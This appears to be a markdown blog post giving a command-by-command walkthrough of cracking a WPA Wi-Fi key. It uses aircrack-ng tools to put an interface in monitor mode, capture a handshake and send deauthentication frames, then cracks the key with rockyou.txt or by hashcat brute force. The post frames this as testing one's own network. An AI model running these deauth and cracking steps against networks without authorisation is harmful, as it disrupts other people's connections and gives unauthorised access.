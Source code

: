 ```yaml
---
title: How to crack WPA wifi key?
layout: post
date: 2024-06-08T22:02:24.311Z
preview: ""
tags: [fun, wifi, security, cracking, wap, wpa, wifite, aircrack-ng, hcxtools, hashcat]
categories: []
type: default
---
```


## Assumption
You know the wifi key that we want to crack, because your are the owner of this wifi off course. Let take an example with `12345678`. So we will try to crack it.

## With wifite 

### Install

```bash
sudo apt update && sudo apt upgrade -y && sudo apt install -y wifite
```

### Launch
```bash
sudo wifite --wpa
```

Then follow instructions on software.


## With aircrack-ng

### Install

```bash
$ sudo apt update && sudo apt upgrade -y && sudo apt install -y aircrack-ng
```

### Steps

Get your wifi interface name (it should begin by 'wl')
```bash
$ ifconfig
```
or this if your are lazzy :
```bash
ifconfig | grep -e '^wl' | awk -F ':' '{print $1}'
``` 

Switch the wifi interface in Monitor mode
```bash
$ sudo airmon-ng start wlp4s0
```

Set the monitor wifi interface in env
```bash
$ export INT=wlp4s0mon
```

Dump networks
```bash
$ sudo airodump-ng $INT
```

then crtl+c and choose your BSSID
set the BSSID in your env
```bash
$ export BSSID={see_the_BSSID_column}
```
set the channel (see the CH column) in your env
```bash
$ export CH={see_the_CH_column}
```

Capture a handshake
```bash
$ sudo airodump-ng -c $CH --bssid $BSSID -w capture $INT
```

So you can wait for a handshake... or run a deauth attack. 
Open a new terminal
```bash
$ sudo aireplay-ng --deauth 100 -a {see_BSSID_column} -c {see_STATION_column} wlp4s0mon --ignore-negative-one
```
When the mention `WPA handshake: xx:xx:xx:xx:xx:xx` is displayed in the first terminal, 
crtl+c on both terminal windows
then exist from the monitor mode
```bash
$ sudo airmon-ng stop wlp4s0mon
```

## Found the wifi key

### by using dictionnaires 

Do you know rockyou.txt? See [here](https://github.com/zacheller/rockyou). We assume that `12345678` is contained in rockyou.txt (,it is!). So we will use it to find the wifi key from the capture file. 

Let's go.
```bash
$ aircrack-ng -w rockyou.txt capture-01.cap
```
> It can take a few moments :)

### by bruteforcing (ho yeah!)

Ready to burn your CPU? We assume that the wifi key to find is `12345678`. With a lengh of 8 and only digits, any computer is able to find it in few hours, about 3 hours for my old laptop. So we will use it to find the wifi key from the capture file. 

We will use hcxtools, hashcat for that.

#### install hcxtools

hcxtools is a set of tools that are used for capturing and converting WLAN traffic. It provides various functionalities for working with captured packets, such as converting them to hashcat format for password cracking.

```bash
$ sudo apt update && sudo apt upgrade -y && sudo apt install -y hcxtools
```

#### Convert the capture file to hashcat format
```bash
$ hcxpcapngtool capture-01.cap -o capture-01.hccapx
```

#### install hashcat

Hashcat is a powerful open-source password recovery tool. It is designed to crack hashed passwords using various attack modes, such as brute-force, dictionary, and rule-based attacks. 

```bash
$ sudo apt update && sudo apt upgrade -y && sudo apt install -y hashcat
```

#### bruteforce

```bash
$ hashcat -a 3 -m 22000 capture-04.hash ?d?d?d?d?d?d?d?d
```
> 3h/4h later the wifi key has been found. (arround 5100H/s)


